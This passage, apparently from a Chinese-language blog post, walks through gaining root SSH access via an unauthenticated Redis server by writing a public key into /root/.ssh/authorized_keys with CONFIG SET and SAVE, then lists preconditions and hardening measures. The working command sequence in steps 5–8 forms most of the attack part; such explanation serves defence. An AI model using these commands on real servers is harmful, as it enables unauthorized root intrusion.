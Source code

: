 5、将客户端公钥写入到文件 foo.txt 中以便后面写入到 redis，其实是生成一个头尾都包含两个空行的公钥文件

```
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt

```

6、先清空 Redis 存储所有的内容，将 foo.txt 文件内容写入到某个 key 中，这里为 crackit，随后调用 redis-cli 登录 redis 调用 config 命令设置文件 redis 的 dir 目录和把 rdb 文件的名字dbfilename 设置为 authorized\_keys。

```
redis-cli -h 10.211.55.12 echo flushall
cat foo.txt | redis-cli -h 10.211.55.12 -x set crackit

// 登录 Redis
redis-cli -h 10.211.55.12

config set dir /root/.ssh

config set dbfilename "authorized_keys"

```

7、执行 save 将 crackit 内容 落盘

```
save

```

8、尝试登录

```
ssh root@10.211.55.12

```

我们来看一下，服务器 10.211.55.12 机器上 /root/.ssh/authorized\_keys 的内容，可以看到 authorized\_keys 文件正是我们客户端机器的公钥文件

![](https://user-gold-cdn.xitu.io/2019/6/26/16b9134c2111e4f8?w=1382&h=364&f=jpeg&s=111405)

利用这个漏洞有几个前提条件

*   Redis 绑定 0.0.0.0 允许所有来源的 TCP 连接，且没有设置密码 这完全是作死，因为就算不能入侵你的系统，也可以修改 Redis 中缓存的内容。不过 Redis 的设计者们一开始就认为不会有人这么做，因为把 Redis 放在一个信任的内网环境运行才是正道啊。
    
*   Redis 没有设置密码或密码过于简单 大部分开发都没有意识到 Redis 没有密码是一个大问题，要么是一个很简单的密码要么没有密码，Redis 的处理能力非常强，auth这种命令可以一秒钟处理几万次以上，简单的密码很容易被暴力破解
    
*   redis-server 进程使用 root 用户启动 不用 root 用户启动也可以完成刷新 authorized\_keys 的功能，但是不能登陆，因为非 root 用户 authorized\_keys 的权限要求是 600 才可以登录，但是可以覆盖破坏系统的文件。
    
*   没有禁用 save、config、flushall 这些高危操作 在正式服务器上这些高危操作都应该禁用或者进行重命名。这样就算登录你你的 Redis，也没有办法修改 Redis 的配置和修改服务器上的文件。
    

## 解决办法

*   首要原则：不暴露服务到公网 让 redis 运行在相对可信任的内网环境
*   设置高强度密码 使用高强度密码增加暴力破解的难度
*   禁止 root 用户启动 redis 业务服务永远不要使用 root 权限启动
*   禁用或者重命名高危命令 禁用或者重命名 save、config、flushall 等这些高危命令，就算成功登陆了 Redis，也就只能折腾你的 redis，不能取得系统的权限进行更危险的操作
*   升级高版本的 Redis 出现如此严重的问题，Redis 从 3.2 版本加入了 protected mode， 在没有指定 bind 地址或者没有开启密码设置的情况下，只能通过回环地址本地访问，如果尝试远程访问 redis，会提示以下错误：
